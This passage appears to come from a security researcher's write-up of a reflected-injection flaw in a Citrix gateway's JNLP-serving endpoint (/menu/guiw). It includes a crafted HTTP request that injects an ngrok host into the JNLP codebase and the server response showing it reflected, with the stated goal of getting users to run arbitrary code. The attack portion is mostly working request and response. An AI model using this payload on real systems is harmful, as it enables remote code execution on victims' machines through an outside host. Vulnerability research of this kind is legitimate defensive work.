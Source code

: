 ```http
<jar href="/admin_ui/php/application/views/applets/gui_view3.jar"/>
<jar href="/admin_ui/php/application/views/applets/gui_view4.jar"/>
<jar href="/admin_ui/php/application/views/applets/gui_view5.jar"/>
<jar href="/admin_ui/php/application/views/applets/gui_view6.jar"/>
<jar href="/admin_ui/php/application/views/applets/gui_view7.jar"/>
<jar href="/admin_ui/php/application/views/applets/guicommon.jar"/>
<jar href="/admin_ui/php/application/views/applets/ns.jar"/>
<jar href="/admin_ui/php/application/views/applets/jnlp.jar"/>
<jar href="/admin_ui/php/application/views/applets/sinetfactory.jar"/>
<jar href="/admin_ui/php/application/views/applets/sslava.jar"/>
<jar href="/admin_ui/php/application/views/applets/pixl.jar"/>
<jar href="/admin_ui/php/application/views/applets/looks.jar"/>
<jar href="/admin_ui/php/application/views/applets/l2fprod-common-tasks.jar"/>
<jar href="/admin_ui/php/application/views/applets/commons-codec.jar"/>
<jar href="/admin_ui/php/application/views/applets/java40.jar"/>
<jar href="/admin_ui/php/application/views/applets/prefuse.jar"/>
<jar href="/admin_ui/php/application/views/applets/gson.jar"/>
</resources>

<application-desc main-class="ns.im.Gui">
<argument>-D</argument>
<argument>0</argument>
<argument>-WS</argument>
<argument>0</argument>
<argument>-codebase</argument>
<argument>2://citrix.local</argument>
<argument>-ns4</argument>
<argument>1</argument>
<argument>-ns10</argument><argument>4</argument></application-desc>
</jnlp>
```

By now you've probably already noticed that user input is directly reflected in the output. This means you can pretty easily change some stuff around, and try to get a user to execute random code on their machine. For example:

```http
GET /menu/guiw?nsbrand=HENKA&protocol=8d96faa9.ngrok.io">&id=HENKC&nsvpx=phpinfo HTTP/1.1
Host: citrix.local
```

Returns:
```http
HTTP/1.1 200 OK
Date: Sun, 26 Jan 2020 12:52:01 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
X-XSS-Protection: 1; mode=block
Content-Length: 2398
Connection: close
Content-Type: application/x-java-jnlp-file

<jnlp codebase="8d96faa9.ngrok.io">://citrix.local" href="/menu/guiw?nsbrand=HENKA&protocol=8d96faa9.ngrok.io">&id=HENKC&nsvpx=phpinfo">

<information>
<title>GUI citrix.local</title>
<vendor>Citrix Systems, Inc.</vendor>
```

